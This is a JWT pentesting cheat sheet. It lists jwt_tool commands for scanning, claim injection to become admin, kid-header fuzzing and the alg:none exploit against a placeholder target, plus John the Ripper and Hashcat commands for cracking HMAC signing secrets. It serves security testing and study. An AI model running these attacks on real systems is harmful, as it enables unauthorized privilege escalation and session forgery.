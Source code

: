 ```yaml
---
title: Json Web Token (JWT) Pentesting
desc:
tags: [Cryptography, Hashcat, JSON, JWT, Token, Web]
alts: []
render_with_liquid: false
---
```


## Decode JWT

1. **Use Online Tools**

    - **[JWT.io](https://jwt.io/){:target="_blank"}**

        JWT Decoder and Encoder.

2. **Use JWT Toolkit**

    **[JWT Toolkit](https://github.com/ticarpi/jwt_tool){:target="_blank"}** is a toolkit for testing, tweaking and cracking JWT.

    ```sh
    python jwt_tool.py <Base64_Encoded_JWT>
    ```

<br />

## Automation

1. **Use JWT Toolkit**

    1. **Scan**

        ```sh
        # -t: Target URL
        # -rc: Cookies
        # -M pb: Playbook Scan Mode
        # -cv: Canary Value
        python jwt_tool.py -t https://vulnerable.com/admin -rc "jwt=<Base64_Encoded_JWT>;anothercookie=test" -M pb -cv "not authorized"
        ```

    2. **Exploit**

        ```sh
        # -X i: Exploit (inject inline)
        # -I -pc username -pv admin: Inject Claim ("username": admin)
        python jwt_tool.py -t https://vulnerable.com/admin -rc "jwt=<Base64_Encoded_JWT>;anothercookie=test" -X i -I -pc username -pv admin
        ```

    3. **Fuzzing**

        ```sh
        # -I -hc kid -hv wordlist.txt: Inject Claim ("kid": FUZZ)
        python jwt_tool.py -t https://vulnerable.com/admin -rc "jwt=<Base64_Encoded_JWT>;anothercookie=test" -I -hc kid -hv wordlist.txt
        ```

<br />

## Manual Pentesting

1. **Use JWT Toolkit**

    ```sh
    # Tamper (Manual Exploit)
    python jwt_tool.py <Base64_Encoded_JWT> -T

    # Exploit (Automated Exploit)
    # -X a: Exploit (alg: none)
    python jwt_tool.py <Base64_Encoded_JWT> -X a
    ```

<br />

## Crack JWT Signature

First of all, you need to put the JWT into the text file.

```sh
echo -n '<Base64_Encoded_JWT>' > jwt.txt
```

Then crack the hash using John the Ripper or Hashcat.

```sh
john --format=HMAC-SHA256 --wordlist=/usr/share/wordlists/rockyou.txt jwt.txt

hashcat -a 0 -m 16500 jwt.txt passwords.txt
hashcat -a 0 -m 16500 jwt.txt passwords.txt -r rules/best64.rule
hashcat -a 3 -m 16500 jwt.txt '?u?l?l?l?l?l?l?l' -i --increment-min=6
```